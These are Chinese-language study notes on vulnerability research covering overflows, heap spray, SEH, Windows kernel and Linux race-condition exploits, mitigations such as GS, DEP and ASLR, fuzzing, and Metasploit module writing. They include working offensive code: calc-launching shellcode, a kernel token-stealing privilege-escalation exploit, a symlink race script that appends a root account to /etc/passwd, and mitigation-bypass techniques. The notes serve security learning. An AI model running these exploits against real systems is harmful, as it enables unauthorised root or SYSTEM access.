


# 概念
* 漏洞: 能导致软件做一些超出设计范围的事情. (漏洞挖掘者一般弹出对话框或calc.exe)
* 0day: 攻击者掌握的, 未被软件厂商修复的漏洞. 
* 1day: 已被厂商发现并修复, 但用户还没打补丁的漏洞. 
* POC代码: Proof of Concept, 证明漏洞的存在或利用漏洞的代码. 
* 漏洞参考网站 
    * cve.mitre.org
    * cert.org
    * blogs.360.cn
    * https://www.anquanke.com/
    * freebuf.com
* cwe常见漏洞类型
    * 配置错误(CWE-16)(Configuration)
    * 代码问题(CWE-17)(Code)
        * 资源管理错误(CWE-399)(Resource Management Error)
        * 输入验证(CWE-20)(Improper Input Validation)
            * 缓冲区溢出(CWE-119)(Buffer Errors)
            * 注入(CWE-74)(lnjection)
                * 格式化字符串(CWE-134)(Format String)
                * 命令注入(CWE-77)(Command Injection)
                    * 操作系统命令注入(GTE-78)(OS Command Injection)
                * 跨站脚本(CWE-79)(Cross-site Scripting)
                * 代码注入(CWE-94)(Code injectioa)
                * SQL注入(CWE-89)(SQL lnjection)
            * 路径遍历(CWE-22)(Path Traversal)
            * 后置链接(CWE-59)(Link Following)
        * 数字错误(CWE-189)(Numeric Errors)
        * 信息泄露(CWE-200)(Information Exposure)
        * 安全特征问题(CWE-254)(Security Features)
            * 授权同题(CWE-287)(Authentication lssues, Improper Authentication)
            * 未充分验证数据可靠性(CWE-345)(Insuffcient Verification of Data Authenticity)
                * 跨站请求伪造(CWE-352)(Cross-Site Request Forgery)
            * 信任管理(CWE-255)(Credentials Management)
            * 权限许可和访问控制(CWE-264)(Permissons, Pnvilegesand Access Controls)
                * 访问控制错误(CWE-284)(lmpoper Acoess Contol)
            * 加密问题(CWE-310)(Cryptographic Issues)
        * 竞争条件(CWE-362)(Race Comditon)
    * 资料不足

# 缓冲区溢出
* 根本原因: 冯诺依曼计算机体系未对数据和代码作明确区分

    

* shellcode
    1. 将机器码作为字符串保存到变量`sh`(不能包含`\x00`, 这样字符串会被截断, 可以用`xor eax, eax`代替含有操作数0的指令, 以生成0), 注意低位优先的系统中, 每条指令对应的字符串要倒序(如, `call eax` -> `D0FF` -> `"\xFF\xD0"`)
    2. `typedef void (*func)();`
    3. `((func) &sh)();`看shellcode能不能运行. 

    * shellcode例子

        ```x86asm
        mov esp,ebp ; 
		push ebp ;      
		mov ebp,esp ;                      把当前esp赋给ebp 
		xor edi,edi ;
		push edi ;压入0, esp－4,;   作用是构造字符串的结尾\0字符。
		sub esp, 08h
		mov byte ptr [ebp-0ch], 'm'
		mov byte ptr [ebp-0bh], 's'
		mov byte ptr [ebp-0ah], 'v'
		mov byte ptr [ebp-09h], 'c'
		mov byte ptr [ebp-08h], 'r'
		mov byte ptr [ebp-07h], 't'
		mov byte ptr [ebp-06h], '.'
		mov byte ptr [ebp-05h], 'd'
		mov byte ptr [ebp-04h], 'l'
		mov byte ptr [ebp-03h], 'l'
		lea eax, [ebp-0ch]
		push eax    ; 把字符串"msvcrt.dll"的地址压栈
		mov eax, 0x7c801d7b
		call eax    ; 调用LoadLibrary


		xor ebx,ebx
		push ebx
		push 'exe.'
		push 'clac'
		mov eax, esp
		push eax    ; 把'calc.exe'字符串的地址压栈, 作为system函数的参数
		mov eax,0x77bf93c7 ; "\xc7\x93\xbf\x77"
		call eax
		mov eax, 0x7c81cafa ; "\xfa\xca\x81\x7c"
		call eax ; 调用ExitProcess
        ```
    * shellcode的设计
        1. 提取机器码(用vs)
        2. 调试
        3. 通用性(获取调用的api地址)
            * api地址随平台变化
            * 搜索`jmp esp`地址

            
            
    * 冲击波漏洞(MS03-26)
        * `CoGetInstanceFromFile(pServerInfo, NULL, 0, CLSCTX_REMOTE_SERVER, STGM_READWRITE, L"C:\\1234561111111111111111111111111.doc", 1, &qi);` 远程和本地均有调用这个接口. 这个调用的文件名参数过长时, 会导致客户端的本地溢出(用`lstrcpyw`拷贝)
        * 在客户端给服务器传递这个参数的时候, 会自动转换为`L"\\servername\c$\1234561111111111111111111111111.doc"`的形式再传递给远程服务器. 在远程服务器的处理中会先取出servername名, 但未做长度检查(给定0x20内存空间). 
    * shellcode参考资料: 
        * [Shellcodes database for study cases](https://shell-storm.org/shellcode/index.html)

# 堆溢出
* 原理
    * windows堆是桶装结构, 相同大小的节点组织在同一条双向链表中
    * 分配内存时, 从双向链表摘下节点: `Node->bp->fp = Node->fp; Node->fp->bp = Node->bp; ` 两次赋值即是攻击者可利用的两次内存写入机会. 

        
    * 一个漏洞代码示例: 
        ```cpp
        #include <stdio.h>
        #include <malloc.h>
        int main(void) { 
            char *p1 = malloc(Node0);
            strcpy(p1, buf);
            char *p2 = malloc(Node1); // 发生堆溢出攻击
            return 0;
        }
        ```
    * 通过溢出Node1前的节点, 覆盖Node1节点的`bp`字段为`where`值, `fp`字段为`what`值, 于是从双向链表中摘下节点的操作实际变成: `((Node1->where) + 0x0) = (Node1->what); ((Node1->what) + 0x4) = (Node1->where); ` 即 `*where = what; *(what + 4) = where; `

        
    
* 利用
    * 覆盖PEB中的字段
        * PEB中的`0x7ffdf020`处保存`RtlEnterCriticalSection`函数的地址
        * 载荷: 填充字节 + shellcode地址 + `\x7f\xfd\xf0\x20`
        * 攻击后的执行链: `RtlEnterCriticalSection` -> shellcode -> `RtlEnterCriticalSection` -> `MessageBox`

# 堆喷射
* 多见于浏览器漏洞
* shellcode存在堆上; 在shellcode前面用0x90(NOP)填充
* 栈溢出将返回地址覆盖为如`0x0c0c0c0c`的值, 执行跳转到该区域后, 会大概率滑行到shellcode

    

# SEH溢出
* SEH原理
    * SEH结构体放在系统栈中
        ```x86asm
            push -0x1
            push <异常处理函数的位置>
            push <下一个SEH的位置>
        ```
    * 线程初始化时, 会自动向栈中安装一个SEH, 作为线程默认的异常处理
    * 若程序源代码使用了`_try{}_except{}`或者`Assert`宏等异常处理机制, 编译器将最终通过向当前函数栈帧中安装一个SEH来实现异常处理. 
    * 异常发生时, 操作系统会中断程序, 并首先从`TEB`的0字节偏移处取出距离栈顶最近的SEH, 使用异常处理函数句柄所指向的代码来处理异常. 异常处理函数运行失败, 则沿着SEH链尝试其它处理函数. 
    * 若程序安装的所有异常处理程序都不能运行, 将运行windows默认异常处理函数(弹出一个弹框提示错误, 然后关闭程序)

        

* 利用: 同栈溢出, 覆盖异常处理函数地址为shellcode地址. 

# Windows内核漏洞
* 分析过程

    

* 拒绝服务漏洞
    * `if (MmIsAddressValid(Buffer)) {memcmp(Buffer, buffer2, len);}`
        * `MmIsAddressValid`不可信, 只要Buffer地址处字节在有效页, 下个字节在无效页, len大于1, 则校验通过后, `memcpy`可导致蓝屏. 
* 缓冲区溢出
    * ROP(Return-oriented programming): 对抗DEP保护技术
* 内存篡改
    * 任意地址写任意数据
        * 条件: 驱动中采用NeitherIO通信方式, 且没有校验要写入的地址和要写入的数值. 
            ```cpp
            Type3InputBuffer = pIrpStack->Parameters.DeviceIoControl.Type3InputBuffer;
            UserBuffer = pIrp->UserBuffer;
            // ......
            *(ULONG *)UserBuffer = *(ULONG *)Type3InputBuffer; // Type3InputBuffer处存0, UserBuffer处存HalDispatchTable的地址加4(此处存HalQuerySystemInformation函数的地址)
			IoStatus->Information = sizeof(ULONG);
            ```
        * 过程
            * R3传入一个内核地址, 比如某个表中的函数地址(如`HalDispatchTable`中的`HalQuerySystemInformation`函数)
                * `NtQuerySystemInformation`查询nt模块(`ntoskrnl.exe`)在系统中的载入位置
                * 用`LdrLoadDll`在R3进程中载入nt模块并得到载入的地址, 用`LdrGetProcedureAddress`得到`HalDispatchTable`表的地址, 减去nt模块在本进程中的地址, 得到`HalDispatchTable`相对nt模块头部的偏移
                * 结合上述两个值得到`HalDispatchTable`在系统中的实际偏移, 而该表加4的位置保存`HaliQuerySystemInformation`函数地址
            * R3传入一个任意数据, 比如0, 以及一个任意地址, 如`HalQuerySystemInformation`的在`HalDispatchTable`表中的地址. 这样一来, 利用上述提到的内核漏洞代码, 将篡改`HalDispatchTable`表. 

                ```cpp
                //利用漏洞将HalQuerySystemInformation函数地址改为0
                InputData = 0;
                NtStatus = NtDeviceIoControlFile(
                    DeviceHandle,         // FileHandle
                    NULL,                 // Event
                    NULL,                 // ApcRoutine
                    NULL,                 // ApcContext
                    &IoStatusBlock,       // IoStatusBlock
                    IOCTL_METHOD_NEITHER, // IoControlCode
                    &InputData,           // InputBuffer--->任意数据()
                    BUFFER_LENGTH,        // InputBufferLength
                    xHalQuerySystemInformation, // OutputBuffer-->任意地址
                    BUFFER_LENGTH);       // OutBufferLength
                ```
                下图为`HalDispatchTable`表篡改前后: 

                

                
                
            * 在R3分配一个0地址空间(`NtAllocateVirtualMemory`, win7及以前可用), 并将shellcode拷贝到此内存空间
                * 代码
                    ```cpp
                    ShellCodeAddress = (PVOID)sizeof(ULONG);//4
                    NtStatus = NtAllocateVirtualMemory(
                        NtCurrentProcess(),      // ProcessHandle
                        &ShellCodeAddress,       // 期望内存基址指针(ShellCodeAddress的值是4, 函数调用后, 值变为0). 
                        0,                       // ZeroBits
                        &ShellCodeSize,          // shellcode大小, 4k(一个内存页)
                        MEM_RESERVE | 
                        MEM_COMMIT |
                        MEM_TOP_DOWN,            // AllocationType
                        PAGE_EXECUTE_READWRITE); // Protect可执行, 可读可写

                    //复制Ring0ShellCode到0地址内存中
                    RtlMoveMemory(
                        ShellCodeAddress,
                        (PVOID)Ring0ShellCode,
                        ShellCodeSize);

                    //触发漏洞, 该函数会去HalDispatchTable表找HaliQuerySystemInformation函数, 而经过前面的篡改后这个位置的值已经为0
                    NtStatus = NtQueryIntervalProfile(
                        ProfileTotalIssues, // Source
                        NULL);              // Interval
                    ```

                * shellcode
                    ```cpp
                    NTSTATUS Ring0ShellCode(    
						ULONG InformationClass,
						ULONG BufferSize,
						PVOID Buffer,
						PULONG ReturnedLength)
                    {
                        //打开内核写
                        __asm
                        {
                            cli;    // 屏蔽所有外部中断, 保证程序不被打断
                            mov eax, cr0;
                            mov g_uCr0,eax; 
                            and eax,0xFFFEFFFF; 
                            mov cr0, eax; 
                        }
                        //USEFULL FOR XP SP3
                        __asm
                        {
                            //KPCR 
                            //由于Windows需要支持多个CPU, 因此Windows内核中为此定义了一套以处理器控制区(Processor Control Region)
                            //即KPCR为枢纽的数据结构, 使每个CPU都有个KPCR. 其中KPCR这个结构中有一个域KPRCB(Kernel Processor Control Block)结构, 
                            //这个结构扩展了KPCR. 这两个结构用来保存与线程切换相关的全局信息. 
                            //通常fs段寄存器在内核模式下指向KPCR, 用户模式下指向TEB.
                            //http://blog.csdn.net/hu3167343/article/details/7612595
                            //http://huaidan.org/archives/2081.html
                            mov eax, 0xffdff124  //KPCR这个结构是一个相当稳定的结构,我们甚至可以从内存[0FFDFF124h]获取当前线程的ETHREAD指针。
                            mov eax,[eax] //PETHREAD
                            mov esi,[eax+0x220] //PEPROCESS
                            mov eax, esi
                    searchXp: // 循环, 寻找system进程的EPROCESS结构
                            mov eax,[eax+0x88] //NEXT EPROCESS
                            sub eax,0x88
                            mov edx,[eax+0x84] //PID
                            cmp edx,0x4	//SYSTEM PID
                            jne searchXp
                            mov eax, [eax+0xc8] //SYSTEM TOKEN
                            mov [esi+0xc8],eax //CURRENT PROCESS TOKEN // 提权
                        }
                        //关闭内核写
                        __asm
                        {
                            sti;    // 恢复所有外部中断
                            mov eax, g_uCr0;
                            mov cr0,eax;
                        }

                        g_isRing0ShellcodeCalled = 1;
                        return 0;
                    }
                    ```
                    * 提升进程的权限到system进程: 
                        * 可读SAM, SECURITY等注册表项
                        * 可访问系统还原文件`SYSTEM VOLUME INFORMATION`(要在高级设置中把`隐藏受保护的操作系统文件`的勾去掉)
                        * 可更换系统文件
                        * 可手动杀毒
                    * 恢复内核hook和inlinehook
                    * 添加调用门, 中断门等
    * 固定地址写任意数据
    * 任意地址写固定数据

* BYOVD(Bring your own vulnerable driver)
    * 攻击者向目标环境植入一个带有漏洞的合法驱动程序, 再通过漏洞利用获得内核权限以杀死/致盲终端安全软件等. 
    * 参考
        * [loldrivers](https://www.loldrivers.io/)
        * [Microsoft 推荐的驱动程序阻止规则](https://learn.microsoft.com/zh-cn/windows/security/application-security/application-control/windows-defender-application-control/design/microsoft-recommended-driver-block-rules)

# Linux漏洞
* linux下的竞争条件漏洞(race condition)
    * 由于多个对象(线程/进程等)同时操作同一资源, 导致系统执行违背原有逻辑设定的行为. 
        * 写多线程程序时, 忘了对共享资源加锁. 
        * 刻舟求剑: 检查某个对象时, 其它线程可能正在改它, 但程序假设这些对象保持不变
    * 属于TOCTTOU(time-of-check-to-time-of-use)
    * 条件
        * 有两个或以上事件, 两个事件间有一定间隔, 且有一定关系(第二个依赖于第一个). 
        * 攻击者能够改变第一个事件所产生的, 为第二个条件所依赖的假设
    * 相关函数
        * `open(file_name, O_CREAT | O_EXCL | O_TRUNC | O_RDWR, 0600)`: 有`O_EXCL`则别的进程无法打开, 否则别的进程可在某漏洞进程打开该文件时同时操作该文件. 
    * 利用
        * 例子1
            * 假设有一个可执行文件(漏洞程序), 其**拥有者是root, 且有`s`权限**. 该程序通过标准I/O流向`/tmp/xyz`文件写入内容
            * 运行如下脚本, 以普通用户身份运行漏洞程序, 循环向程序输入`tom:ttXydORJt50wQ:0:0:,,,:/home:/bin/bash`(这行是要写入`/etc/passwd`文件的, 为tom用户获取管理员权限)

                ```sh
                while true
                do
                    ./vulp < attack_input # attack_input文件中的内容为: tom:ttXydORJt50wQ:0:0:,,,:/home:/bin/bash
                done
                ```
            * 运行如下脚本, 创造链接文件`/tmp/xyz`, 指向`/etc/passwd`, 于是上一步运行的脚本不停向`/etc/passwd`写入内容. 
                ```sh
                    old=`ls -l /etc/passwd`
                    new=`ls -l /etc/passwd`
                    while [ "$old" = "$new" ]
                    do
                        rm -f /tmp/XYZ
                        >/tmp/XYZ
                        ln -sf /etc/passwd /tmp/XYZ
                        new=`ls -l /etc/passwd` 
                    done
                ```
            * 注意
                * 根据 https://www.cxyzjd.com/article/HananoYousei/91364810 中的说法, `sudo sysctl -w fs.protected_symlinks=1` 即可防御攻击(默认即是1, 要完成攻击则需要设为0). 
                * 事先若有tom用户, 脚本直接在`/etc/passwd`末尾加的那一行不起效, 登录tom时仍用原来的那行
                * `set-uid`标志位
                    * 当一个运行的程序拥有该标志位时, 它被假设具有拥有者的权限. 比如, **该程序的拥有者为root, 则任何运行该程序的用户都会获得root权限**. 
                    * `rws`中的`s`即是该标志位. 可以`chmod u+s <目标程序文件>`
        * 例子2: CVE-2014-0196
            * buffer满了(`t->used >= tb->size`)时申请新内存
            * 通过溢出覆盖下一个tty的`tty_struct`中的`*oops`数组中某个函数指针改成shellcode的地址


* double-fetch
    * 用户通常会通过调用内核函数完成特定功能. 当内核函数两次从同一用户地址读取同一数据时, 第一次检查数据有效性(指针验空, 缓冲区大小验证等), 第二次使用数据. 而同时另一用户线程通过创造竞争条件, 在两次内核读取之间对用户数据进行篡改. 

* UAF(use after free)
    * 寻找或生成野指针
        * 引用技术多加或少减, 都会造成引用计数不为0, 然而此时内存已释放, 从而出现野指针. 

* 未初始化漏洞
    * 未初始化指针: 释放一个野指针. 利用成功可获得smbd运行权限
    * 内存分配未初始化: 类似UAF. 分配一块内存后, 没有清零或初始化, 其中可能存在别人留下的恶意代码. 

* OOB(out of bound): 越界访问漏洞
    * 如栈溢出, 堆溢出, 整数溢出, 类型混淆等

# windows安全机制


* GS机制

    

    * 汇编中会看到函数退出前有`__security_check_cookie`的调用
    * 启用和禁用
        * 启用: 加`/GS`选项, 默认是有的(高版本vs: `C/C++ -> 代码生成 -> 安全检查`)
        * 禁用: 在声明函数时这么写: `__declspec(safebuffers) void fool();`
    * 绕过
        * 未被保护的内存绕过: 不大于4字节的缓存默认不开
        * 覆盖虚函数突破GS
        * SEH攻击突破GS. 
            * [缓冲区][cookie][SEH记录][上一个ebp][返回地址][参数]. 可以覆盖到SEH记录, 然后在检查cookie前触发异常, 并绕过SEH保护. 
            但是在 2003 server, 最新的 xp, vista, win7等高版本中异常处理结构被修改了. 
        * 替换cookie突破: 同时替换.data节和栈中的cookie
            * 前提: 获得任意地址的4字节写入操作权限

* 变量重排

    

* safeseh
    * 编译时加`/safeseh`选项
    * 编译器会把异常处理函数地址提取出来, 编入一张安全的S.E.H表, 并将这张表放到程序的映像里. 运行时若调用异常处理函数, 会检查其地址是否在S.E.H表中. 
    * `dumpbin /loadconfig <文件名>` 可显示S.E.H表
    * 操作系统是用`RtlDispatchException -> RtlIsValidHandler` 函数来进行有效性验证的. 

* DEP(data execution prevention)
    * 将数据所在内存页标识为不可执行
    * DEP工作状态
        * OptIn: 默认仅将DEP保护应用于Windows系统组件和服务, 对于其它程序不予保护, 但用户可通过应用程序兼容性工具(ACT, Application Compatibility Toolkit)为选定的程序启用DEP, 在Vista下边经过`/NXcompat`选项编译过的程序将自动应用DEP. 这种模式可被应用程序动态关闭, 它多用于普通用户版的操作系统, 如xp, vista, win7. 
        * Optout: 为排除列表外的所有程序和服务启用DEP, 用户可以手动在排除列表中指定不启用DEP保护的程序和服务. 这种模式可被应用程序动态关闭, 多用于服务器版的操作系统(win2003, win2008)
        * 编译设置: `linker -> advanced -> data execution prevention`

* ASLR(address space layout randomization)
    * 需编译器和操作系统双重支持
    * 将进程的模块基址随机化. 
    * ASLR的有效性依赖于整个地址空间布局是否对于攻击者保持未知. 
    * 编译配置: `链接器` -> `高级` -> `随机基址`, 选`/dynamicbase`
    * 映像随机化, 堆栈随机化, PEB, TEB随机化. `jmp esp`这类跳板指令的地址就不好确定了. 
    * 攻击
        * 堆喷射
        * OOB
        * 地址泄露
        * 访问与特定地址关联的数据
        * 针对ASLR实现的缺陷来猜测地址, 常见于系统熵过低或ASLR实现不完善. 
* SEHOP(SEH overwrite protection)
    * 其核心任务是检查seh链的完整性, 在程序转入异常处理前, 检查最后一个异常处理函数是否为系统固定的终极异常处理函数. 
    * 打开
        * 注册表: `\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\kernel`中的`DisableExceptionChainValidation`设置为0

* safeunlink
* heap cookie

    

* 避免缓冲区溢出
    * `strcat, strcpy, sprintf`: 一参`dst`的大小要能把源字符串的结尾'\0'也含进去. 
    * `strncat, strncpy, snprintf`: 比上面的多了第三个参数, 表示要拷贝的字符数
        * `strncpy(dst, src, len)`: 不会向`dst`追加结束标记'\0'
            * len的大小
                * dst长度 > src长度 : strlen(src)
                * dst长度 == src长度 : strlen(src)
                * dst长度 < src长度 : dst的长度 - 1
    * `strcat_s, strcpy_s`: `strcat_s(dst, len, src)`, 但是和`strcat`一样, 遇到结尾'\0'时停止拷贝. 
    * 检查
        * 长度, 边界, 正负
            * 长度校验漏洞例子: 心脏滴血
                * openssl服务端处理心跳请求包时, 没有对客户端发来的length字段(2字节, 可以标志的数据长度是64kB)做合规检测. 源码`memcpy(bp, pl, payload)`中, `payload`为心跳包(心跳类型(1) + 心跳长度(2) + 数据)中的心跳长度, 用户直接传最大payload值, 之后即可发生溢出. 
        * 类型检查
        * NULL指针检查

# fuzz
* 参考
    * [https://paper.seebug.org/841/](https://paper.seebug.org/841/)
    * [模糊测试1](https://zhuanlan.zhihu.com/p/266061489?utm_id=0)
    * [Fuzz入门教学——污点分析](https://blog.csdn.net/weixin_45100742/article/details/134981002)
    
* 模糊测试理论
    * 代码覆盖率(Code Coverage)
        * `语句覆盖`(Statement Coverage)
            * 又称为行覆盖(Line Coverage), 段覆盖(Segment Coverage)
            * 度量被测代码中每个可执行语句是否被执行到了. 常被认为是"最弱的覆盖". 
        * `判定覆盖`(Decision Coverage)
            * 又称分支覆盖(Branch Coverage), 所有边界覆盖(All-Edges Coverage), 基本路径覆盖(Basic Path Coverage), 判定路径覆盖(Decision-Decision-Path)。
            * 度量程序中每一个判定的分支是否都被测试到了. 
        * `条件覆盖`(Condition Coverage)
            * 度量判定中的每个子表达式结果true和false是否被测试到了. 
            * 比判定覆盖更强. 
        * `路径覆盖`(Path Coverage)
            * 又称断言覆盖(Predicate Coverage)
            * 度量是否函数的每一个分支都被执行了. 
            * 有多个分支时, 需要对多个分支进行排列组合. 
    * 输入
        * 基于规则: 这种生成方式在面对如数据库测试这种对语法和语义要求比较高的情况时比较有用. 
        * 通过对测试用例进行变异. 
* 流程
    * fuzz工具使程序崩溃
    * 调试分析异常和崩溃位置(windbg, ollydbg, ida, 汇编代码)
    * 匹配漏洞类型
    * exploit
    * 发布poc代码
* fuzz工具流程
    * 生成大量测试用例
    * 把测试用例丢给产品
    * 检测到崩溃或异常
    * 审核崩溃日志, 进行深度解析
* 各种fuzz工具
    * active x fuzz: COMRaider
    * fuzz网络协议: spike
    * 文件类型漏洞
        * smart fuzz: peach
        * blind fuzz: filefuzz
    * ftpfuzz
    * 内核漏洞: ioctl_fuzzer
    * 基于硬件虚拟化 
        * digtool(冰刃实验室)
        * bochspwn(google p0团队)
            * 在vt层监听内存变化

## 二进制插桩和污点分析
* 二进制插桩: 在二进制程序的指定位置插入监控代码, 类似hook. 
    * 静态插桩(SBI): 对二进制程序进行**反汇编**, 然后按需添加桩代码并将更新的二进制程序存入磁盘. 
        * 方法一: 如下. jmp指令有5个字节, 容易破坏小于5个字节的指令. 

            

        * 方法二: `int 3`指令, 只有一个字节, 只需用0xcc覆盖某指令的第一个字节. int3产生一个软中断, 操作系统(Linux)产生`SIGTRAP`信号. 
            * 缺点: int3 这样的软中断速度很慢, 导致插桩后的应用程序的运行开销过大. 此外, int3 方法与正在将 int3 作为断点进行调试的程序不兼容. 

        * 方法三: 跳板(trampoline), 创建原始代码的副本, 对副本进行插桩.  
            * 原来的`.text`节中的代码被转移到新的节, `.text`节的每个函数头替换成一个jmp指令. 

            
    

    * 动态插桩(DBI): 在程序运行时将新指令插入指令流中(而非注入内存的二进制代码段中), 避免了代码的重定位问题. 
        * DBI计算程序执行了多少基本块(`BBL`, basic block, 是一个单入口单出口的代码段). 
        * 实现方案为使用 DBI 引擎的API 对每个基本块的最后一条指令进行插桩, 插入回调对基本块递增计数. 
            * DBI引擎从进程中提取代码并插桩. 
            * JIT编译器对插桩后的代码进行优化. 
            * 优化后的代码会放到代码缓存里执行. 

            
        
    * 框架, 项目
        * `Inter Pin`
            * pin读取和实时编译代码的粒度叫踪迹(trace)
            * 类似基本块, 但只能从顶部进入, 且可能包含多个出口. 
            * Pin 总是以踪迹粒度实时编译代码, 但它支持在多种粒度上插桩代码, 包括指令, 基本块, 踪迹, 函数及映像
        * `valgrind`
        * `github.com/angorafuzzer/libdft64`
* 污点分析
    * 流程
        * 识别污点源和汇聚点: 
            * 使用启发式的策略进行标记, 例如把来自程序外部输入的数据统称为"污点"数据
        * 污点传播分析: 分析污点标记数据在程序中的传播途径. 
            * 显式流分析: 分析污点标记如何随程序中变量之间的**数据依赖**关系传播. 
            * 隐式流分析: 分析污点标记如何随程序中变量之间的**控制依赖**关系传播, 也就是分析污点标记如何从条件指令传播到其所控制的语句. 
            * 性能评价: 
                * 欠污染 (under-taint): 由于对隐式流污点传播处理不当导致本应被标记的变量没有被标记。
                * 过污染 (over-taint): 由于污点标记的数量过多而导致污点变量大量扩散。
        * 无害处理: 无害处理模块是指污点数据经过该模块的处理后, 数据本身不再携带敏感信息或者针对该数据的操作不会再对系统产生危害. 带污点标记的数据在经过无害处理模块后, 污点标记可以被移除. 
            * 常数赋值是最直观的无害处理的方式. 加密处理, 程序验证等在一定程度上也可以认为是无害处理
        
* 动态污点分析(DTA): 也称数据流追踪(DFT), 通常在动态插桩平台上实现. 
    * 过程: 污点数据(攻击数据)从网络, 磁盘的系统调用或指令进入内存(污点源), 经过移动/拷贝/计算, 到达攻击点(污点槽), 被插桩代码检测到. 

## 学术
* 测试集
    * `LAVA-M`

# 工具
## metasploit
* 参考资料
    * [参考文档offensive-security.com](https://www.offensive-security.com/metasploit-unleashed/)
    * ["exploit completed but no session was created"问题](https://www.infosecmatter.com/why-your-exploit-completed-but-no-session-was-created-try-these-fixes/)
* Armitage
    * msf的GUI工具, 使用Java开发. 
    * 启动前需先执行: 
        * 启用postgresql服务
            > service postgresql start
        * 初始化msfdb
            > msfdb init
        * 启动msfconsole并查看数据库连接状态
            > msfconsole
            > db_status
* `msfconsole`
    * `-m <模块路径>`: 可指定自定义模块的搜索路径. (否则, 默认路径为`~/.msf4/modules`)
    * `-q`: 静默, 不要打印开启动画. 
* MSF命令
    * 模块命令
        * `use <ruby脚本路径>`: 使用模块. 路径是相对于`/use/share/metasploit-framework/modules/exploits`的. 
        * `back`: 退出当前模块
        * `show targets`: 显示目标平台(操作系统)
        * `set target 0`: 选择第0项作为target
        * `show exploits`: 列出可用EXP模块(包括自己添加的模块)
        * `show payloads`: 显示可用的shellcode
        * `show options`: 显示配置信息
        * exp常见配置选项: 
            * `set payload <payload路径>`: 设置载荷
                * `windows/exec`: 这个shellcode可执行任意命令
            * `set rhost <目标ip地址>`: 
            * `set rport <目标端口>`: 
            * `set cmd calc`: 配置shellcode待执行的命令为'calc'程序
            * `set exitfunc seh`: 以seh退出程序
        * `exploit`: 发送测试数据, 执行攻击. 
        * `reload_all`: 重载所有模块. 
    * 载荷命令
        * `check`: 检查目标是否可渗透. 
        * `generate`: 生成载荷. 
            * `-f <格式>`: 如base64, dll, hex, raw, java等
            * `-e <编码器>`: 
                * `x86/shikata_ga_nai`: 
                * `x86/fnstenv_mov`: 变长
                * `x86/nonalpha`: 不包含数字, 字母
            * `-o <输出文件名>`: 
            * `-b <坏字符>`: 指定一串需要避免的坏字符. 
            * `-i <迭代次数>`: 设置迭代次数. 迭代次数越大, 载荷越大. 
            * ``: 
        * `reload`: 重载当前模块. 
        * `to_handler`: 为制定的载荷创建一个句柄. 
    * 任务命令
        * `handler`: 开启一个载荷句柄, 运行任务
        * `jobs`: 列出任务 
            * `-k 2-6,7,8,11..15`: 停止任务
            * `-j`: 
        * `setg loglevel 3`: 设置日志级别为3(可在`~/.msf4/logs/framework.log`中看到详细的错误跟踪)
    * 开发者命令
        * `reload_lib <xxx/xxx.rb>`: 根据文件路径重载某ruby文件
        * `edit`: 编辑当前模块或文件
            * `edit exploit/zbh1.rb`: 编辑自定义的ruby脚本
        * `loadpath <模块路径>`: 加载指定路径中的模块. 
        * `irb`: 打开交互式shell. 
        * `pry`: 在当前模块或框架中打开pry调试器. 
        * `log`: 显示`framework.log`文件内容. 
        * `time`: 显示执行一条命令的耗时. 
        

* msf模块
    * `auxiliary`: 辅助
    * `exploits`: 渗透
    * `payload`: 载荷
    * `post`: 后渗透

* 自定义模块
    * 定义和加载
        * 例如, 在`~/.msf4/modules/exploits`下新建一个`rb`文件, 自定义一个exploit模块
        * 进入msfconsole后, 改了模块的话, 执行`reload_all`命令重新加载模块. 
        * 进入模块(`use`模块)后可以在编辑后用`reload`重新加载. 
        * 如果加载没有成功, 则打印`~/.msf4/logs/framework.log`查看错误日志. 
    
    * 调试
        * 进入`/usr/share/metasploit-framework`, 执行`bundle config unset frozen`
        * `gem install pry`, 安装`pry`包. 
        * 编辑`Gemfile`, 加一行`gem 'pry-byebug'`. 在msf的根目录下, 执行`bundle install`, 安装`pry-byebug`. 
        * 在要分析的地方加一行`binding.pry`, 即加上一个断点. 可以在后面接`if`语句, 达到条件断点的效果. 
        * 如果要进入`exploit`函数调试, 则要在其中打断点, 然后`set payload`设置一个载荷, 然后执行`run`. 
        * 如果要调试框架核心的代码, 需要在修改代码后重新载入文件. 
            * `load`和`require`加载库时搜索的路径保存在`$LOAD_PATH`列表中. 其中用的最多的路径就是msf下的`lib`. 

        * 指令
            * `backtrace`: 栈跟踪
            * `whereami`: 显示当前执行行
            * `up`: 沿着调用栈回溯到上一个调用的上下文
            * `down`: 反之
            * `next`: 执行下一行代码
            * `step`: 进入
            * `finish`: 运行至函数返回
            * `continue`: 继续运行
            * `break`: 列出所有断点
                * `break SomeClass#run`: 在`SomeClass#run`方法开始处中断.
                * `break Foo#bar if baz?`: 当`baz?`为true时在`Foo#bar`方法处中断.
                * `break app/models/user.rb:15`: 在`user.rb`的15行设置断点.
                    * 文件路径应用绝对路径. 
                * `break 14`: 在当前文件的第14行设置断点
                * `break --condition 4 x > 2`: 给断点4设置条件.
                * `break --condition 3`: 移除断点3处的条件.
                * `break --delete 5`: 删除断点5.
                * `break --disable-all`: 禁用所有断点
                * `break --show 2`: 打印断点2的详情 
            * `show-method <函数名>`: 列出函数的源码
    
    * 自定义exploit示例
        ```rb
        require 'msf/core'

        class Metasploit3 < Msf::Exploit::Remote
            include Exploit::Remote::Tcp

            def initialize(info={})
                super(update_info(info,
                'Name'           => "Code Example",
                'Description'    => %q{
                    This is an example of a module using references
                },
                'License'        => MSF_LICENSE,
                'Author'         => [ 'Unknown' ],
                'References'     =>
                    [
                    [ 'CVE', '2014-9999' ],
                    ['BID', '1234'],
                    ['URL', 'http://example.com/blog.php?id=123']
                    ],
                'Platform'       => 'win',
                'Targets'        => [
                    [ 'Windoes 2000', { 'Ret' => 0x77F8948B } ],
                    [ 'Windoes XP SP2', { 'Ret' => 0x7C914393 } ]
                ],
                'Payload'        => {
                    'Space' => 200,     # 指定生成的payload的最大字节数
                    'BadChars' => "\x00",
                    # 'DisableNops' => true, # 不用nop雪橇
                    # 'MaxNops' => 100, # 限制nop雪橇最大字节数
